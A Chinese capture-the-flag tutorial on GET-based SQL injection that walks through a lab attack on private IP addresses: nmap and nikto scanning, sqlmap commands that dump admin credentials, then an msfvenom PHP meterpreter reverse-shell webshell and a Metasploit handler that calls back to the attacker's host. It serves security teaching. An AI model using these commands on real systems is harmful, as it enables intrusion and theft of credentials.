









# CTF教程：14：SQL注入(GET) - 白帽黑客-杰哥

## 概述
在本节课中，我们将学习Web安全中的SQL注入漏洞。我们将通过一个实战案例，演示如何利用SQL注入漏洞获取系统后台的用户名和密码，登录系统后寻找上传点，上传Webshell（一句话木马），最终获取服务器权限并找到Flag值。

---

## SQL注入漏洞介绍
上一节我们介绍了本节课的目标，本节中我们来看看什么是SQL注入漏洞。

SQL注入攻击，指的是通过构建特殊的输入作为参数传入到Web应用程序当中。这些输入大都是SQL语句里的一些组合。通过执行我们构造的SQL语句，进而执行我们想要的操作。

SQL注入漏洞产生的原因，可以说是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统并执行了对应的操作。


SQL注入产生的原因通常表现在以下几个方面：
以下是SQL注入漏洞常见的几个成因：
*   不正当的类型处理。
*   不安全的数据库配置。
*   不合理的查询集处理。
*   不当的错误处理。
*   转义字符处理不当。
*   多个提交处理不当。



实际上，其本质原因就是程序允许用户输入，而用户输入了恶意字符后，系统没有对其过滤或者过滤不严格，从而导致了SQL注入漏洞的出现。

---

## 实验环境搭建
在开始实战之前，我们先介绍一下今天的实验环境。

*   **攻击机**：IP地址为 `192.168.253.12`，系统为Kali Linux。
*   **靶机**：IP地址为 `192.168.253.15`。

我们的目标是通过渗透测试，获取靶机的root权限，并找到Flag值。

---

## 信息收集
上一节我们搭建了实验环境，本节中我们来看看如何对目标进行信息收集。这是渗透测试的第一步。



首先，我们需要探测靶机开放的服务及其版本信息。我们使用Nmap工具进行扫描。



**探测服务及版本信息**：
```bash
nmap -sV 192.168.253.15
```
这条命令会向靶机发送探测包，并分析返回的响应，以识别开放端口和运行的服务版本。

**全面探测主机信息**：
为了获取更全面的信息，我们可以使用更强大的扫描参数。
```bash
nmap -T4 -A -v 192.168.253.15
```
参数说明：
*   `-T4`：设置扫描速度为较快模式。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细的输出信息。

**探测Web服务敏感信息**：
针对开放的HTTP服务（如80端口），我们可以使用`nikto`工具来探测Web应用的敏感目录、文件及潜在漏洞。
```bash
nikto -host http://192.168.253.15
```
如果Web服务运行在非标准端口（如8080），则需要在命令中指定端口：`http://192.168.253.15:8080`。

---

## 漏洞分析与利用
上一节我们收集了靶机的基本信息，本节中我们基于这些信息进行深入分析和漏洞利用。

分析`nikto`的扫描结果，我们发现了一个后台登录页面：`/admin/login.php`。在浏览器中访问该页面后，我们尝试使用常见弱口令（如`admin/admin`）登录，但未能成功。

为了进一步发现漏洞，我们使用Kali Linux集成的Web漏洞扫描器——OWASP ZAP。ZAP可以自动发现Web应用程序中的安全漏洞，如SQL注入、跨站脚本（XSS）等。

扫描完成后，ZAP报告了多个漏洞，其中包含一个高危的SQL注入漏洞。接下来，我们将利用这个SQL注入点来获取数据库中的信息。

我们使用`sqlmap`工具来自动化利用SQL注入漏洞。`sqlmap`是一个开源的渗透测试工具，可以自动检测和利用SQL注入漏洞。

**基本利用流程如下**：
1.  **探测注入点并获取数据库名**：
    ```bash
    sqlmap -u “http://192.168.253.15/vuln_page.php?id=1” --dbs
    ```
    *   `-u`：指定存在注入点的URL。
    *   `--dbs`：枚举所有数据库名称。



2.  **获取指定数据库中的表名**：
    ```bash
    sqlmap -u “http://192.168.253.15/vuln_page.php?id=1” -D database_name --tables
    ```
    *   `-D`：指定要操作的数据库名。
    *   `--tables`：枚举该数据库中的所有表名。





3.  **获取指定表中的列名**：
    ```bash
    sqlmap -u “http://192.168.253.15/vuln_page.php?id=1” -D database_name -T table_name --columns
    ```
    *   `-T`：指定要操作的表名。
    *   `--columns`：枚举该表中的所有列名。



4.  **导出指定列的数据**：
    ```bash
    sqlmap -u “http://192.168.253.15/vuln_page.php?id=1” -D database_name -T table_name -C “column1,column2” --dump
    ```
    *   `-C`：指定要导出的列名。
    *   `--dump`：导出指定列的数据。

**实战操作**：
我们按照上述流程，最终在`portal_db`数据库的`users`表中，找到了`login`和`password`列，并成功导出了管理员账号`admin`及其密码的MD5哈希值。通过在线破解或本地破解，我们得到了密码明文`P4SSW0RD`。

使用得到的账号密码`admin/P4SSW0RD`，我们成功登录了系统后台。

---

## 权限提升与获取Flag
上一节我们通过SQL注入进入了后台，本节中我们来看看如何进一步获取服务器权限。

登录后台后，我们的目标是上传一个Webshell（一句话木马），从而获得一个可以执行系统命令的Shell。



**生成Webshell**：
我们使用`msfvenom`工具生成一个PHP类型的反向连接木马。
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
*   `-p php/meterpreter/reverse_tcp`：指定生成PHP格式的Meterpreter反向TCP负载。
*   `LHOST`：设置监听主机的IP地址（攻击机IP）。
*   `LPORT`：设置监听端口。
*   `-f raw`：指定输出格式为原始代码。

将生成的PHP代码保存为文件（例如`shell.php`），并通过后台找到的上传功能将其上传到靶机。



**启动监听**：
在攻击机上，我们需要启动Metasploit框架来监听来自靶机的反向连接。
1.  打开`msfconsole`。
2.  使用`exploit/multi/handler`模块。
3.  设置与生成木马时相同的Payload和连接参数。
    ```bash
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    exploit
    ```

**获取Shell并寻找Flag**：
成功上传Webshell后，在浏览器中访问该文件的URL，即可触发反向连接。此时，在`msfconsole`中我们会获得一个Meterpreter会话。

通过Meterpreter会话，我们可以执行系统命令，遍历目录，最终在服务器的特定位置（如根目录、Web目录、用户主目录等）找到Flag文件，并使用`cat`或`type`命令读取其内容。

---

## 总结
本节课中我们一起学习了SQL注入漏洞的完整利用流程。我们从信息收集开始，使用Nmap和Nikto探测目标；接着利用OWASP ZAP发现SQL注入漏洞，并使用Sqlmap自动化工具获取了后台凭证；登录系统后，我们通过上传Webshell获得服务器控制权，最终成功找到了Flag。这个过程涵盖了从外网渗透到内网权限获取的多个关键步骤，是CTF比赛中Web类题目的典型解题思路。